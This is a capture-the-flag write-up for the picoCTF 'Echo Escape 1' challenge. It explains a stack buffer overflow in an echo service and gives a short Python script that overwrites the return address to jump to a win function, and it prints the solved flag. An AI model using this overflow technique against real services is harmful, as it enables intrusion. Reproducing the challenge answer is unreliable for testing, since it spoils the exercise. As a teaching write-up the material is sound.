




# Echo Escape 1

`Category: Binary Exploitation` · `Source: picoCTF` · `Difficulty: Medium`

> The "secure" echo service welcomes you politely... but what if you don't stay polite?
> Can you make it reveal the hidden flag?
> `nc mysterious-sea.picoctf.net 55604`

---

## Examining the binary

Before reading any code I run `file` and `checksec` to learn the architecture and which
protections are in play, since those decide the whole strategy:





`file` reports an `ELF 64-bit LSB executable`, x86-64 tells me memory addresses are 8 bytes long, no canary means a plain overflow runs straight through to the saved return address, and No PIE means whatever I
want to jump to has a constant address I can hardcode.

---

## Reading the source

The challenge gives us the source c code:

```c
void win() {
    FILE *fp = fopen("flag.txt", "rb");
    ...
    fwrite(buffer, 1, n, stdout);   // prints the flag
}

int main() {
    char buf[32];
    ...
    read(0, buf, 128);              // 128 bytes into a 32-byte buffer
    printf("Hello, %s\n", buf);
}
```

`read` accepts up to 128 bytes into a 32-byte buffer with no length check we immediately know we can trigger a stack buffer overflow. And `win` already opens `flag.txt` and prints it, it just never gets called. So I only have to send execution into `win`.

---

## The stack layout in IDA Pro

I open `main` in IDA to get the exact distance from `buf` to the saved return address:



It's unrelated but we know that __libc_start_main calls main and `call main` pushes the return address onto the stack (8
bytes). main then runs `push rbp`, saving the old base pointer (another 8 bytes). Last,
`sub rsp, 0x20` creates the 32-byte `buf`. Counting from the start of `buf` up to the return
address that `call main` saved:

```
32 (buf) + 8 (saved rbp) = 40 bytes 
```

(because we have to rewrite the 8 bytes of the return address)

So we have to write 40 bytes of whatever, then the 8 next bytes will overwrite the return address of `call main`

---

## Finding win

Without PIE, the target address is constant, and IDA shows it directly:


`win` sits at `0x401256`.

---

## Getting the flag

The payload is 40 bytes of padding, then `win`'s address packed little-endian:

```python
import socket, struct

s = socket.create_connection(("mysterious-sea.picoctf.net", 55604)) # launched instance
s.recv(1024)                                       # the welcome msg
s.sendall(b"A" * 40 + struct.pack("<Q", 0x401256)) # 40 filler + win, 48 bytes total
print(s.recv(1024).decode())                       # the flag
```

When `main` hits its `ret`, instead of returning into libc it jumps to `0x401256`, and `win`
reads `flag.txt` and prints it back over the socket:



```
picoCTF{3ch0_s3rv1c3_br34k5_7287203f}
```

